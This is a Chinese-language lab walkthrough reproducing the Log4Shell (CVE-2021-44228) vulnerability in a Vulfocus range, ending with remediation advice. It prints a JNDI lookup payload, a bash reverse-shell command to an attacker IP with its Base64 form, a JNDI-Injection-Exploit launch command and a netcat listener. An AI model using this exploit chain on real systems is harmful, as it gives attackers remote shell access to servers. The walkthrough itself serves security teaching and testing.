








## 实验环境

| 角色 | 环境 | 说明 |
| --- | --- | --- |
| 靶场 | Vulfocus v0.3.2.11 | 提供 Log4j2 漏洞环境 |
| 攻击机 | Linux | 用于 DNSLog 验证、启动 JNDI 服务和监听反弹 shell |

## 漏洞简介

Log4j 是 Apache 开源的 Java 日志记录组件。Log4j 1.x 由于需要兼容非常旧的 Java 版本，维护成本越来越高，最终在 2015 年 8 月升级为 Log4j2。

Log4j2 支持通过 JNDI 查找来解析日志内容中的 `${}` 表达式。如果用户输入被直接写入日志，攻击者就可以构造包含 `${jndi:ldap://...}` 的请求，让服务器加载远程恶意类并执行任意代码，最终控制服务器。该漏洞编号为 CVE-2021-44228，也被称为 "Log4Shell"。

## 影响版本

```text
2.0-beta9 <= Apache Log4j <= 2.15.0-rc1
```

## 复现步骤

先访问靶场页面，确认环境正常运行。


### 利用 DNSLog 验证漏洞存在

在 DNSLog 平台生成一个专属域名。



把 `${jndi:ldap://` 拼接上 DNSLog 域名，构造 payload：

```text
${jndi:ldap://xxxxxx.dnslog.cn}
```

将 payload 填入存在日志记录的输入点。



对 payload 做 URL 编码后发送请求。



如果 DNSLog 平台收到解析记录，说明目标存在 JNDI 注入，漏洞可以利用。



### 启动 JNDI 注入服务

使用开源工具 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) 启动 LDAP 服务，并指定要执行的命令。

先准备反弹 shell 命令：

```bash
bash -i >& /dev/tcp/192.0.2.10/9000 0>&1
```

将其 Base64 编码，方便在 `bash -c` 中拼接执行（实验环境 IP 已脱敏，替换为实际地址即可）：

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMC4yLjEwLzkwMDAgMD4mMQ==
```

启动 JNDI 注入工具，`-C` 指定执行命令，`-A` 指定攻击机地址：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
  -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMC4yLjEwLzkwMDAgMD4mMQ==}|{base64,-d}|{bash,-i}" \
  -A 192.0.2.10
```



### 反弹 shell

另开一个终端监听 9000 端口：

```bash
nc -l 9000
```

把工具给出的 JNDI 地址写入 payload，注意格式为 `${jndi:rmi://ip:port}`。



对 payload 进行 URL 编码后发送请求。



监听端收到反弹 shell，漏洞利用成功。



## 修复建议

- 升级 Log4j2 到 2.17.1 及以上版本；
- 无法升级时，可移除 `JndiLookup` 类或设置 `log4j2.formatMsgNoLookups=true`；
- 对用户输入中的 `${jndi:` 等关键字做过滤，并限制服务器出网访问。

::: warning 声明
本文仅用于授权的安全测试与教学环境，请勿对未授权目标进行测试。
:::
